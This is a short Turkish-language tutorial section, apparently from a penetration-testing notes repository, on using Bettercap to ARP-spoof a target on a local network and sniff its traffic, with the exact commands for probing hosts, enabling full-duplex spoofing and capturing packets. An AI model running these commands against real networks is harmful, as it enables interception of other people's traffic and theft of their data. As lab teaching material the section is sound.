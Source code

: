 ### Bettercap
- MITM saldırılarını yapmamıza yardımcı olan tool
- `apt-get install bettercap` komutu ile tool'u makinamıza yüklüyoruz
- Tool'u açmak için temel komut dizilimi -> `bettercap -iface <interface>`
- Programı açtıktan sonra:
  - `nmap` ile yaptığımız işlemi burada da yapabiliriz
  - `net.probe on` komutu ile birlikte ağdaki IP adreslerini ve MAC adreslerini bulabiliriz
  - `net.show` komutu ile tüm ağları daha detaylı tablo olarak görebiliriz

![Bettercap Net.Probe On & Net.Show](./assets/15-bettercap-netprobe-netshow.png)
#### Bettercap ile ARP Spoof 
- `set arp.spoof.fullduplex true` -> komutu ile ARP spoof modumuzu etkin hale getirdik
- `set arp.spoof.targets 192.168.1.218` -> komutu ile hedef IP adresimizi belirtiyoruz. Başka hedeflerimiz de varsa `,` ile ayırarak argüman olarak yollayabiliriz
- `arp.spoof on` -> komutu ile ARP Spoof saldırımızı başlatabiliriz
- Hedef makinamızda ARP tablosuna bakarsak, modem (192.168.1.1) ile Kali makinamızın (192.168.1.87) MAC adreslerinin aynı olduğunu göreceğiz
![Bettercap ARP Spoof](./assets/16-arp-spoof-bettercap.png)
#### Bilgileri Çalmak
`net.sniff on` -> Komutu ile hedef makina(/lar)mızdaki paketleri dinlemeye başlayabiliriz.
- Aşağıdaki örnek hedef makina dinlenirken `google.com` isteği attığında yakalanmıştır

- Bu yöntemler genelde **HTTP** sitelerde çalışacaktır. HTTPS siteleri kırmayı aşağıdaki başlıklarda göreceğiz
